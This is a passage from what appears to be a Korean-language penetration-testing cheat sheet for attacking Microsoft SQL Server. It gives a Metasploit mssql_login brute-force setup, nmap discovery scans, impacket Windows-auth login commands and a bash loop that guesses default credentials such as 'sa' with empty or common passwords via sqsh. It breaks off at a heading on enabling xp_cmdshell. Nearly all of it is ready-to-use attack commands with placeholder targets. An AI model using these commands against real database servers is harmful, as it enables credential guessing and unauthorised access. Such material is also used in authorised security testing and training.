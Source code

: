 ```bash
# Metasploit 브루트포스
msfconsole
use auxiliary/scanner/mssql/mssql_login
set RHOSTS {IP}
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

---

## 🚨 문제 해결

### 🚫 MSSQL 연결 거부시

```bash
# 다른 MSSQL 포트 확인
nmap -p 1433,1434,1435,2433 {IP}

# UDP 1434 포트 확인 (SQL Server Browser)
nmap -sU -p 1434 {IP}

# 명명된 인스턴스 확인
nmap --script ms-sql-discover -p 1433 {IP}

# Windows 인증 시도
impacket-mssqlclient {DOMAIN}/{USERNAME}:{PASSWORD}@{IP} -windows-auth

# 연결 문자열 변경
sqsh -S {IP}:1433 -U sa -P ''
```

### 🔒 인증 실패시

```bash
# 다양한 사용자명 시도
users=("sa" "admin" "mssql" "sql" "dbo" "guest" "administrator")
passwords=("" "sa" "admin" "password" "123456" "Password123" "mssql")

for user in "${users[@]}"; do
    for pass in "${passwords[@]}"; do
        echo "Trying $user:$pass"
        timeout 5 sqsh -S {IP} -U $user -P "$pass" -C "SELECT 1" 2>/dev/null && echo "SUCCESS: $user:$pass"
    done
done

# Windows 도메인 인증 시도
impacket-mssqlclient {DOMAIN}/{USERNAME}@{IP} -windows-auth
```

### ⚙️ xp_cmdshell 활성화 실패시

